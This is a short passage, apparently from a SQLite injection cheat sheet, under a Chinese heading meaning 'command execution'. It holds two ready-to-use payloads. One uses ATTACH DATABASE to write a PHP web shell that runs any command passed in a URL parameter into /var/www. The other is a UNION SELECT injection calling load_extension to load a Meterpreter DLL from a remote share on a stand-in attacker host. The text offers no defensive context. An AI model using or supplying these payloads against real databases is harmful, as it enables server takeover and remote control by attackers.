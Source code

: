 ## 命令执行

### 附加数据库

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension
```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
